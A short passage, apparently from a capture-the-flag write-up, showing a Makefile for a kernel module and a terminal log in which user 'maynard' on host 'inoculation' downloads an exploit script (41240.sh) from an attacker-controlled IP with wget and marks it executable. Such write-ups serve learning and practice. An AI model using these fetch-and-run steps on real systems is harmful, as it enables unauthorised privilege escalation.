all:
  make -C /lib/modules/4.15.0-58-generic/build M=$(PWD) modules

clean:
  make -C /lib/modules/4.15.0-58-generic/build M=$(PWD) clean
```

```
maynard@inoculation:~$ wget http://10.8.106.222/41240.sh
--2020-10-05 13:43:16--  http://10.8.106.222/41240.sh
Connecting to 10.8.106.222:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 16102 (16K) [text/x-sh]
Saving to: ‘41240.sh’

41240.sh        100%[=====>]  15.72K  --.-KB/s    in 0.04s

2020-10-05 13:43:16 (441 KB/s) - ‘41240.sh’ saved [16102/16102]
```

```
maynard@inoculation:~$ chmod +x 41240.sh
```
